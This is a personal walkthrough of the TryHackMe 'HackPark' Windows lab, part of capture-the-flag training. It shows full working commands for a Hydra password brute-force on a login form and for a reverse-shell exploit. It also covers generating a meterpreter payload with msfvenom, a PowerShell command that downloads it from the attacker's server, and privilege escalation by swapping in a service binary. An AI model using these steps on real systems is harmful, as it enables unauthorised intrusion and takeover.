 ```yaml
---
title: HackPark-writeup-THM
date: 2022-12-28 11:00:00
categories: [room, medium]
tags: [windows, privesc, hydra]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/hackpark">HackPark</a>"

First of all I am going to do a nmap scan:

```bash
nmap -Pn <Machine IP>

Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org/) ) at 2023-12-28 05:20 EST
Nmap scan report for 10.10.100.75
Host is up (0.054s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.97 seconds
```

I have usend -Pn because the machine does not respond to ping.

We can see that it has port 80(web page) and port 3389(rdp) open.

For now I am just going to see the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled.png)

From here I can do a reverse image research with google images to uncover the clown identity!

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt <Machine_IP> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed”

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 05:43:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.100.75:80/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.100.75   login: admin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-28 05:44:04
```

Found the password!

Now we need to get a reverse shell, this can be done by searching in exploit DB using the database version in http://10.10.100.75/admin/about.cshtml

After we install the exploit, we need to change the attacker ip and port to ours

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<YOUR_IP>", <YOUR_PORT>)) {
```

Then we rename the file into PostView.ascx

After that we set up a listener:

```bash
nc -lvnp 4444
```

And we go to publish it

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled%201.png)

After that we just want to go to this path: `http://10.10.10.10/?theme=../../App_Data/files` for triggering the reverse shell!

Now, we want to upgrade the shell using metasploit.

First of all we create our revshell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp  LHOST=<YOUR_IP> LPORT=4555 -f exe -o revshell.exe
```

then we set up our listener inside metasploit:

```bash
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST <YOUR_IP>

LHOST => <YOUR_IP>
msf6 exploit(multi/handler) > set LPORT 4555

LPORT => 4555
```

Then we create a server using python:

 `python3 -m http.server 8000`

After that we need to install the reverse shell inside the windows machine,

We need to do this inside the `temp` folder, otherwise is not going to work:

```bash
powershell Invoke-WebRequest -Uri http://10.18.20.116:8000/revshell.exe -OutFile revshell.exe
```

Then we execute the file and we have the shell!

now we need to search for the OS, we just need to use **sysinfo**

And for the processes **ps**

The hint tells us to check “C:\Program Files (x86)”

So I did:

```bash
c:\Program Files (x86)>dir
 
Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)
08/06/2019  01:12 PM    <DIR>          .
08/06/2019  01:12 PM    <DIR>          ..
08/22/2013  07:39 AM    <DIR>          Common Files
03/21/2014  11:07 AM    <DIR>          Internet Explorer
08/22/2013  07:39 AM    <DIR>          Microsoft.NET
12/28/2023  04:49 AM    <DIR>          SystemScheduler
08/22/2013  07:39 AM    <DIR>          Windows Mail
08/22/2013  07:39 AM    <DIR>          Windows NT
08/22/2013  07:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
               9 Dir(s)  39,124,586,496 bytes free
```

The only thing strange to me is SystemScheduler, if we open the directory, we can see a bunch of processes.

Going in the Events, directory, and opening the log file, will reval to us which is the abnormal service that is running.

We see that the service Message.exe run with the Administrator privileges, and we can use that in our favor.

Now we put in background the meterpreter shell, and then we want to restart the listener again.

Next thing to do is, rename the reverse shell in `/windows/temp` to Message.exe

Then remove Message.exe from the SystemScheduler directory, and put the reverse shell now named Message.exe in it.

Now we just need to start the process.

(Do this with ./Message.exe or Start-Process “Message.exe”)

And we got a Admin shell!

Then I found the jeff flag in: `C:\Users\Jeff\Desktop\user.txt`

And the root flag in: `C:\Users\Administrator\Desktop\root.txt`